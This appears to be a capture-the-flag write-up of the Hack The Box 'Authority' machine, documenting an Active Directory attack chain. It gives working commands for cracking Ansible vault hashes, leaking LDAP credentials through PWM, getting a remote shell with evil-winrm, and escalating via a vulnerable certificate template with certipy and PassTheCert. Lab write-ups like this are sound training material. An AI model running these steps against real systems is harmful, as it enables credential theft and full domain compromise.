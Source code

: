 # Authority

### Reconnaissance

- 22/tcp filtered ssh
- 53/tcp open domain Simple DNS Plus
- 80/tcp open http Microsoft IIS httpd 10.0
- 88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2023-08-15 12:19:34Z)
- 111/tcp filtered rpcbind
- 135/tcp open msrpc Microsoft Windows RPC
- 139/tcp open netbios-ssn Microsoft Windows netbios-ssn
- 389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
- 445/tcp open microsoft-ds?
- 464/tcp open kpasswd5?
- 554/tcp filtered rtsp
- 593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
- 636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
- 3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
- 3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
- 5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- 8443/tcp open ssl/https-alt
- 9389/tcp open mc-nmf .NET Message Framing
- 47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- 49665/tcp open msrpc Microsoft Windows RPC
- 49666/tcp open msrpc Microsoft Windows RPC
- 49664/tcp open msrpc Microsoft Windows RPC
- 49667/tcp open msrpc Microsoft Windows RPC
- 49673/tcp open msrpc Microsoft Windows RPC
- 49688/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
- 49689/tcp open msrpc Microsoft Windows RPC
- 49691/tcp open msrpc Microsoft Windows RPC
- 49692/tcp open msrpc Microsoft Windows RPC
- 49701/tcp open msrpc Microsoft Windows RPC
- 49703/tcp open msrpc Microsoft Windows RPC
- 49715/tcp open msrpc Microsoft Windows RPC
- 60854/tcp open msrpc Microsoft Windows RPC

**HTTP**

port 80 displays the standard IIS landing page
port 593 RPC over HTTP
port 5985 API endpoint
port 8443 displays a login portal for PWM and a message:
```
PWM is currently in configuration mode. This mode allows updating the configuration without authenticating 
to an LDAP directory first. End user functionality is not available in this mode.

After you have verified the LDAP directory settings, use the Configuration Manager to restrict the 
configuration to prevent unauthorized changes. After restricting, the configuration can still be changed but 
will require LDAP directory authentication first.
```

**SMB**
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
Department Shares Disk      
Development     Disk      
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
SYSVOL          Disk      Logon server share 

Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.222 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Development share contains Ansible yml files, download the files and use `grep -r -i pass Development` to 
find passwords

**PWM**

https://github.com/pwm-project/pwm

Found main.yaml containing Ansible vault passwords in SMB share 

Cracked Ansible vault password (remember to remove the filename prefix + : from the output of ansible2john)

```
ansible2john vault-hash.txt > hash.txt
# remove the file name and : from hash.txt before running hashcat/john

hashcat -m 16900 -O -a 0 -w 4 --session=vault hash.txt /usr/share/wordlists/rockyou.txt
john --format=ansible --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Decrypt the vault passwords with ansible-vault and enter the cracked password when prompted

`cat vault-hash.txt | ansible-vault decrypt`

Use the test LDAP profile function in PWM to send the LDAP credentials in plaintext (remember to use ldap://)

Output from test LDAP Profile:
`CN=LDAP_user,OU=Service Accounts,OU=CORP,DC=authority,DC=htb�Password`

### Exploitation

crackmapexec shows winrm is available for the LDAP credentials recovered:

`crackmapexec winrm -u LDAP_user -p password 10.10.11.222`

Use evil-winrm and the recovered LDAP credentials to gain a remote shell on the target and access to user.txt
(the shell blocks NetBIOS which affects certificate requests later)

`evil-winrm -i 10.10.11.222 -u LDAP_user -p 'password'`

### Privilege Escalation

Template[8] -> not authorized to enroll, maybe need to do more for this?

Needed to add a user with impacket-addcomputer to request the vulnerable template

`impacket-addcomputer authority.htb/LDAP_user:'ldap_pass' -computer-name username -computer-pass password`

We can then use certipy to request the vulnerable template (-dns is found in the PWM panel, in the test LDAP 
profile section and -upn is the default Windows administrator account and the domain)

`certipy-ad req -username username$ -password password -cs AUTHORITY-CA -target authority.htb -template VulnTemplate -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.1`

This gives us an administrator certificate which we can use to request a cert and key

```
certipy-ad cert -pfx adminstrator_authority.pfx -nokey -out user.crt
certipy-ad cert -pfx adminstrator_authority.pfx -nocert -out user.key
```

Use PassTheCert to change the Administrator account's password

`python3 passthecert.py -action ldap-shell -target administrator -dc-ip 10.10.11.222 -crt ~/htb/machines/authority/user.crt -key ~/htb/machines/authority/user.key`

Log in as Administrator with evil-winrm for root.txt
